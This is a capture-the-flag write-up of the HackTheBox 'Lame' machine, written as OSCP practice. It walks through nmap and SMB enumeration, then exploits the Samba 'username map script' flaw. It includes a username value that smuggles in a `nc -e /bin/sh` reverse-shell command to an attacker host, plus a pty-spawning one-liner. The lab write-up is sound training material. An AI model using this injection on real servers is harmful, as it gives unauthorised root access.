










# Lame - Linux (Easy)

## Summary
Lame was the first box to be released on HackTheBox and is a relatively easy box that is easily rooted with a standard Metasploit exploit, which I will explore towards the end. However staying in theme with practicing manual exploits in preparation for the OSCP, I will be prioritizing manual attack vectors for this box. This box throws a slight curve ball with a vulnerable VSFTPd server. However, it ends up being a rabbit hole as the server does not allow remote exploitation. 

## Enumeration

I started Enumeration with an `Nmap` scan to find open ports among the top 1000 ports and used the following command to launch my scan.

``` 
sudo nmap -sC -sV -T4 -A $machine_IP -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A - Aggresive Scan Options
-vv - Verbosity level
```


This scan found Open Ports 21 (FTP), 22 (SSH), 139 & 445 (SMB)



### Port 21 - FTP

According to the `Nmap` scan, FTP allows anonymous login, so I attempted to login, which while successful, led to an empty directory.


I followed this up by running Searchsploit on `vsftpd 2.3.4` which shows an exploit, which unfortunately, was not not configured to be exploitable.


### Port 445 SMB

Following FTP Enumeration, I moved onto Samba. I ran `enum4linux` which demonstrated that the `/tmp` directory could be potentially interesting. For reference, `smbmap` would provide the same output in this case.
```
smbmap -H $machine_IP
```




Following this, I re-ran Searchsploit against the version of Samba identified in the Nmap Scan. 



I settled on the Metasploit Command Execution 'Username map script' entry on [ExploitDB](https://www.exploit-db.com/exploits/16320).


This exploit aims to create an SMB session with a username (my payload), password (a random 16 character string) and a user provided domain.




I initially, however incorrectly, attempted to inject the payload when logging in, which failed to work. 


However, since it allowed anonymous login, I was able to log in and inject the payload as a SMB command. 


```
logon "./= `nohup nc -e /bin/sh $LHOST $LPORT`" - This allowed me to trigger a netcat shell
```

Meanwhile, I setup a netcat listener on $LPORT to catch the shell.



## Post Exploitation 

With how the box is configured, I automatically get a root shell - due to the difficulty rating of the box, Privilege Escalation (PrivEsc) is not required. 

Traversing through the file structure, I was able to obtain user and root flags. 




Running `sudo -l` allowed me to understand what the user could run as root. This tends to come in handy when identifying applications that can be run as the root user.



Meanwhile, I used the following command to spawn an interactive terminal (tty) using Python
```
python -c 'import pty; pty.spawn("bash")'
```


## Replicating results with Metasploit



## Completion

